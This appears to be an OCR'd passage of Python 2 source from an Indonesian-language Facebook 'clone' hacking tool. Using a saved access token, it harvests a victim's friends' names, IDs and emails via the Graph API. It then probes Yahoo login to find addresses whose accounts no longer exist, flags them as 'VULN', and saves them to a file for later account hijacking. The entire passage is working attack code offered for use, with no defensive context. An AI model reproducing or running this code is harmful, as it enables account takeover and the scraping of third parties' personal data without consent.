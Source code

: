 
def clone_dari_daftar_teman():
    global toket
    os.system('reset')
    try:
        toket=open('login.txt','r').read()
    except IOError:
        print"\033[1;91m[!] Token Invalid"
        os.system('rm -rf login.txt')
        time.sleep(1)
        keluar()
    try:
        os.mkdir('out')
    except OSError:
        pass
    os.system('clear')
    print logo
    mpsh = []
    jml = 0
    print 42*"\033[1;96m="
    jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;93mMengambil email \033[1;97m...')
    teman = requests.get('https://graph.facebook.com/me/friends?access_token='+toket)
    kimak = json.loads(teman.text)
    jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;93mStart \033[1;97m...')
    print ('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
    print 42*"\033[1;96m="
    for w in kimak['data']:
        jml +=1
        mpsh.append(jml)
        id = w['id']
        nama = w['name']
        links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
        z = json.loads(links.text)
        try:
            mail = z['email']
            yahoo = re.compile(r'@.*')
            otw = yahoo.search(mail).group()
            if 'yahoo.com' in otw:
                br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
                br._factory.is_html = True
                br.select_form(nr=0)
                br["username"] = mail
                klik = br.submit().read()
                jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
                try:
                    pek = jok.search(klik).group()
                except:
                    continue
                if '"messages.ERROR_INVALID_USERNAME">' in pek:
                    print("\033[1;96m[✓] \033[1;92mVULN")
                    print("\033[1;96m[➹] \033[1;97mID   \033[1;91m: \033[1;92m"+id)
                    print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail)
                    print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama+ '\n')
                    save = open('out/MailVuln.txt','a')
                    save.write("Nama : "+ nama + '\n' "ID        : "+ id + '\n' "Email  : "+ mail + '\n\n')
                    save.close()
                    berhasil.append(mail)
        except KeyError:
            pass
    print 42*"\033[1;96m="
    print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
    print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
    print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/MailVuln.txt"